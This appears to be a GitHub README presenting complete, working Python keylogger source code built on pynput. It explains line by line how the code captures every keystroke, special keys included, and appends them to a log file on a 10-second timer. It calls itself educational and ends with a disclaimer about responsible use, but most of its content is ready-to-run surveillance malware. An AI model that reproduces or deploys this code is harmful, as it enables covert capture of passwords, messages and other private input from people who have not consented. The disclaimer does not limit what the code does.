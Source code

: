 # Simple_Keylogger
Overview
This is a simple keylogger written in Python. It captures and logs keystrokes on a user's keyboard and saves them to a file. This project is intended for educational purposes to demonstrate how keyloggers work and to raise awareness about the importance of cybersecurity and protecting personal information.


Features
Captures all keystrokes, including special keys (e.g., Enter, Backspace).
Logs keystrokes to a text file.
Cross-platform support (Windows, macOS, Linux).

Importing Libraries

import pynput.keyboard
import threading

pynput.keyboard: This module is used to listen to keyboard events. It provides tools to capture and react to keyboard inputs.
threading: This module is used to create and manage threads. Threads allow you to run multiple operations concurrently.

Global Variables
python

log = ""
log_file_path = "path/to/save/the/logfile/keylog.txt"
log: This variable will store the keystrokes as a string.
log_file_path: This specifies the path where the log file will be saved. Ensure the path points to a file, not a directory.

Function to Capture Key Presses
def on_press(key):
    global log
    try:
        log += str(key.char)
    except AttributeError:
        if key == key.space:
            log += " "
        else:
            log += " " + str(key) + " "
on_press(key): This function is called whenever a key is pressed.

global log: This allows the function to modify the log variable defined outside of the function.

try block: Attempts to get the character representation of the key and append it to the log.

except AttributeError: Handles special keys (like Enter, Shift, etc.) that do not have a char attribute.

if key == key.space: Adds a space to the log if the spacebar is pressed.

else block: Adds the string representation of the key to the log for other special keys.

Function to Periodically Write Logs to File

def report():
    global log
    with open(log_file_path, "a") as f:
        f.write(log)
    log = ""
    timer = threading.Timer(10, report)
    timer.start()
    
report(): This function writes the logged keystrokes to a file and schedules itself to run again.
global log: This allows the function to modify the log variable.

with open(log_file_path, "a") as f: Opens the log file in append mode ("a").

f.write(log): Writes the contents of log to the file.

log = "": Clears the log after writing to the file.

timer = threading.Timer(10, report): Creates a timer that will call the report function every 10 seconds (adjust the interval as needed).

timer.start(): Starts the timer.

Setting Up the Keyboard Listener
keyboard_listener = pynput.keyboard.Listener(on_press=on_press)
with keyboard_listener:
    report()
    keyboard_listener.join()
    
keyboard_listener = pynput.keyboard.Listener(on_press=on_press): Creates a keyboard listener that calls the on_press function whenever a key is pressed.

with keyboard_listener: Ensures the keyboard listener is properly managed and closed when done.

report(): Calls the report function for the first time to start the logging and reporting process.

keyboard_listener.join(): Keeps the listener running in the current thread to capture keystrokes.

This Python keylogger script captures keystrokes and logs them to a specified file at regular intervals. It imports necessary modules (pynput.keyboard for capturing keystrokes and threading for scheduling). It defines global variables for storing keystrokes and the log file path. The on_press function handles key presses, appending characters to the log and managing special keys. The report function writes the log to a file and schedules itself to run every 10 seconds using a timer. The keyboard listener is set up to capture keystrokes and starts the reporting process. This ensures continuous monitoring and logging of keyboard input. Use this script responsibly and only in authorized environments.




